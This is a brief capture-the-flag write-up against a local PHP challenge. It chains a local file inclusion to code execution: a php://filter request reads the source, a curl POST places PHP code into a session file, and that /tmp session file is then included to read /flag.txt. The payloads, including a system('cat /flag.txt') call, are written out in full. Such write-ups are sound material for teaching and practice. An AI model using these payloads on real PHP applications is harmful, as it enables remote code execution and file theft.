 #+TITLE: Writeup


#+begin_src
/get_flag.php?function=extract&file=php://filter/read=convert.base64-encode/resource=index.php
#+end_src

Sessions are stored in /tmp

#+begin_src
curl -v -X POST -d "name=<?=file_get_contents('/flag.txt');?>" http://localhost:10021/get_flag.php
#+end_src

#+begin_src
< Set-Cookie: PHPSESSID=232acdf771eaf2d75c03d7ef31960ce9; path=/
#+end_src

#+begin_src
<?=file_get_contents('/flag.txt');?>
<?=system('cat /flag.txt');?>
#+end_src

Get the session id from the PHPSESSION cookie.

#+begin_src
/get_flag.php?function=extract&file=/tmp/sess_dc0c104933094ad8d0afcf7d2a778cd9
#+end_src
